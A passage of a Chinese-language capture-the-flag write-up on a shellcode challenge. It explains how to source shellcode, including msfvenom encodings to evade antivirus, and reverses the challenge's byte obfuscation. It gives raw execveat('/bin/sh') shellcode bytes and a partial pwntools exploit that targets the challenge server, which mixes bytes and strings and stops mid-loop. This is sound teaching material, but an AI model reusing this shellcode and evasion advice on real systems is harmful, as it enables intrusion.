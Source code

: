 ```c
}
```

這次沒有任何需要 overflow 的地方，也跟 memory protection 沒什麼關係，因為程式會跟我們要輸入然後直接執行，所以我們只要確保輸入的 shellcode 沒問題就可以了。

### how to generate shellcode?

要產生 shellcode 有三種方式：自己寫、用工具產、上網找。

最扎實的方式是自己寫，你可以先用 c 把程式寫出來，然後把編譯完的結果 copy paste，或是直接用組語寫，然後用 `nasm` 轉換。教學文網路上很多，這裡附上我自己覺得滿好懂的文章：[Shellcoding for Linux and Windows Tutorial](https://www.vividmachines.com/shellcode/shellcode.html)

用工具產也是很常用的方法，最方便的是用 metasploit 的 msfvenom，好處是你可以控制一些參數（例如 reverse shell 要用的 IP 跟 port）跟彈性（例如加上一些 encoding 來規避防毒或是躲過 WAF），但又可以保有自動化的特性。

當然，上網找也是一個方法。最常用的線上資源大概就是 [shellstorm](http://shell-storm.org/shellcode/) 跟 [ExploitDB](https://www.exploit-db.com/shellcodes) 這兩個地方，收藏了各種 architecture、功能、長度的 shellcode。如果不用任何客製化，例如只是要做到 local 開 shell 或是讀取 flag.txt 等固定功能，在上面應該可以輕鬆找到可以直接用的 shellcode。

這題我從 shellstorm 選了一個非常短的 payload：[x86_64 execveat("/bin//sh") 29 bytes shellcode](http://shell-storm.org/shellcode/files/shellcode-905.php)，當然這不是唯一會成功的，你可以選別的自己試試看，然後嘗試 local debug 判斷為什麼有些會成功有些會失敗。

### bypass obfuscation

有了 shellcode 之後，就可以來看看中間 processing 的部分了。

`if ((count & 1) == 0)` 就是判斷 count 的奇偶，最後一個 bit 是 1 的話（奇數）`cVar1 = -1`，最後一個 bit 是 0 的話（偶數）`cVar1 = 1`。這個 count 的奇偶性質會被用來 in place 修改輸入的資訊：`__buf[count] = (__buf[count] + count * cVar1);`，也就是說把每一個字元用 16 進位表示法作運算，第 0 個 +0，第 1 個 -1，第 2 個 +2，第 3 個 -3⋯⋯ 更動每一個輸入。

你可以把原本的 shellcode 輸入進去，然後在 processing 結束的地方設一個中斷點，看一下兩者之間的差別，就可以清楚看出邏輯了。從 6a 開始，下一個從 0x42 變成 0x41，0x58 變成 0x5a，直到最後 0x05 被 +28 變成 0x21：

```txt
# original shellcode
#0x559a4fc78000:	0x529948c4fe58426a	0x2f2f6e69622fbf48
#0x559a4fc78010:	0xd089495e54576873	0x00000a 050fd28949

# modified shellcode
#                      - + - + - + - +     - + - + - + - +
#0x559a4fc78000:	0x4b9f43c8fb5a416a	0x203d61755739b650
#0x559a4fc78010:	0xb99f347241695783	0x0000ed 21f4ec7061
```

所以我們只要在送出 shellcode 前反向操作，把加減處理好，送過去之後程式就會把它還原成我們的 shellcode 了。用 pwntools 寫的 exploit 如下（要特別注意的是 overflow 和 underflow 的處理）：

```python
from pwn import *

#p = process('./shellcoded')
p = remote('challenge.ctf.games', 32383)

sc = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

new_sc = ''
for i in range(len(sc)):
    if i%2 == 0:
        m = 1
    else:
        m = -1
    v = ord(sc[i]) - m*i
    print(v)
    if v<0:
        new_sc += chr(v+0x100)
    elif v>255:
        new_sc += chr(v-0x100)
```